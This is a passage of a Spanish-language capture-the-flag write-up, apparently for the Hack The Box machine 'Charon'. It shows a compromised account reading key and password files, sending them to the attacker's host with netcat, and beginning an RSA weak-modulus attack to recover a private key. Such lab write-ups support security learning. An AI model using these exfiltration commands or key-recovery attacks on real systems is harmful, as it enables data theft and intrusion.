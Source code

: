 Dentro del directorio del usuario `decoder`, vemos algunos archivos los cuales podemos ver el contenido que son `decoder.pub` y `pass.crypt`:

```bash
www-data@charon:/home/decoder$ cat decoder.pub 
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhALxHhYGPVMYmx3vzJbPPAEa10NETXrV3
mI9wJizmFJhrAgMBAAE=
-----END PUBLIC KEY-----
www-data@charon:/home/decoder$ cat pass.crypt ; echo
2OSb"eWgTo7I
www-data@charon:/home/decoder$
```

Lo que haremos primero será transferirnos los archivos a nuestra máquina.

```bash
www-data@charon:/home/decoder$ nc 10.10.14.27 443 < decoder.pub 
www-data@charon:/home/decoder$ nc 10.10.14.27 443 < pass.crypt  
www-data@charon:/home/decoder$ md5sum decoder.pub 
afcb9745eb5e553d7b15077363878c1b  decoder.pub
www-data@charon:/home/decoder$ md5sum pass.crypt 
ade0dc6187e2fa671c1d7a02d3c9f737  pass.crypt
www-data@charon:/home/decoder$ 
```

```bash
❯ nc -nlvp 443 > decoder.pub
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.31] 56648
❯ nc -nlvp 443 > pass.crypt
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.31] 56650
❯ md5sum decoder.pub
afcb9745eb5e553d7b15077363878c1b  decoder.pub
❯ md5sum pass.crypt
ade0dc6187e2fa671c1d7a02d3c9f737  pass.crypt
```

Ahora, de acuerdo con las extensiones, `decoder.pub` podría ser una llave pública y `pass.crypt` es un archivo que ha sido cifrado utilizando la llave privada, pero no contamos con dicha llave; por lo tanto podríamos tratar de obtener la llave privada a partir de la llave pública y para lograrlo, primeramente debemos de encontrar algunas variables que necesitamos (**Nota**: Se comparte un recurso para saber un poco más de este tema [readthedocs](https://pycryptodome.readthedocs.io/en/latest/src/public_key/rsa.html)):

- ***n*** - RSA modulus
- ***e*** - RSA public exponent
- ***p*** - First factor of the RSA modulus
- ***q*** - Second factor of the RSA modulus
- ***d*** - RSA private exponent
- ***m*** - Remainder component

El valor de ***n*** es público y se obtiene de la llave pública y de igual forma el valor de ***e***. Ahora, si el valor de ***n*** es relativamente pequeño, se puede computar ***p*** y ***q*** ya que ***n = p q*** en donde ***p*** y ***q*** son números primos. Asi que vamos a generar un programa en python que nos ayude a generar dichos valores.
